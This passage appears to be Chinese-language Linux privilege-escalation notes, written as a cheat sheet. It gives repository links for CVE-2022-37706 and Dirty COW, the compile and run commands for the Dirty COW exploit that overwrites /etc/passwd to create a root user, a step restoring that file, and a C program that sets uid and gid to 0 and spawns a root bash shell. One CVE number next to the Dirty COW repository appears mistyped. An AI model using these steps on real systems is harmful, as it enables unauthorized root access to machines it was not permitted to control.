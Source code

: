 使用sudo来调用这个插件，即可得到root权限



## SUID-enlightenment_sys

[CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)



## suid-sysinfo



# 脏牛提权

利用探针脚本检测存在的漏洞

git clone https://github.com/mzet-/linux-exploit-suggester

```
cve-2016-5919
git clone https://github.com/gbonacini/CVE-2016-5195

```

https://github.com/firefart/dirtycow.git

编译使用：

```
gcc -pthread dirty.c -o dirty -lcrypt
```


然后通过以下方式运行新创建的二进制文件：

```
./dirty
```


或者

```
 ./dirty my-new-password
```

之后，您可以su firefart或ssh firefart@...
运行漏洞利用程序后，不要忘记恢复 /etc/passwd！

```
mv /tmp/passwd.bak /etc/passwd
```



# 提权代码

```c
#include<unistd.h>
#include<stdio.h>
#include<stdlib.h>
int main()
{
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
